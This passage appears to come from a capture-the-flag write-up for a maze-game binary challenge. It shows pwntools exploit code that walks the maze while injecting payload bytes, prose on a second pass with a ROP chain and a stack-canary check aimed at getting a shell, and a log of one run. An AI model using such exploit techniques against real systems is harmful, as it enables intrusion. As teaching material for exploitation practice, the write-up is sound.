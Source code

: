 ```python
            p.sendlineafter(b'): ', b'x')
            p.sendafter(b'?\n', 0x20 * b'\xff')
            p.sendlineafter(b'): ', b'd')

    for j in range(40 - y):
        p.sendlineafter(b'): ', b'x')
        p.sendafter(b'?\n', 0x20 * b'\xff')
        p.sendlineafter(b'): ', b's')

    if gx != dx:
        for i in range(40 - x):
            p.sendlineafter(b'): ', b'x')
            p.sendafter(b'?\n', 0x20 * b'\xff')
            p.sendlineafter(b'): ', b'd')

    log.info('time check: {s}s'.format(s = time.time() - t))

    # lets bust out of here, return to the east
    p.sendlineafter(b'): ', b'x')
    p.sendafter(b'?\n', 0x20 * b'\xff')
    p.sendlineafter(b'): ', b'd')

    # canary block, cannot change, but can check for East/West
    _ = p.recvuntil(b'What would you like')
    if b'West' not in _:
        log.critical('cannot backtrack 4')
        p.close()
        continue
    if b'East' not in _:
        log.critical('cannot forwardtrack 2')
        p.close()
        continue
```

The 2nd pass starts out not much different from the 1st pass, it was a cut/paste job.  A new rand seed is generated, etc...

> I could have just jumped back to `play_maze`, and kept the old seed, but timewise it really will not matter much.  I guess less of a chance with a 2nd rand mismatch.  It was already tested code, so I didn't bother.

At the start of the 2nd pass we know that our new ROP chain will not have any East/West movement problems or NLs.  At this point there's a 1 in 4 chance it will succeed, i.e. the canary block.  If this passes, then we will get a shell, IFF we do not run out of time.  If the Grue and/or the player (us) is in the upper left corner area, then we could run out of time:

```bash
[*] pass 2
[*] x,y = 25,6
[*] rand 25,6
[*] grue at 6,22
[*] time check: 47.19852542877197s
[*] time check: 48.53908085823059s
```
